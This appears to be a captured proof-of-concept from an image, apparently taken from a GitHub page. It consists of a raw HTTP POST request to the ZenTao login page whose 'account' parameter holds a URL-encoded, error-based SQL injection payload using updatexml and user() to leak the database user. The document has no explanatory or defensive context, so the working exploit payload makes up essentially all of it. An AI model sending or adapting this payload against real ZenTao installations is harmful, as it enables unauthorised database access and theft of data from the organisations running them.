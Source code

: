 POST /zentao/user-login.html HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded

account=admin%27+and++updatexml%281%2Cconcat%280x1%2Cuser%28%29%29%2C1%29+and+%271%27%3D%271
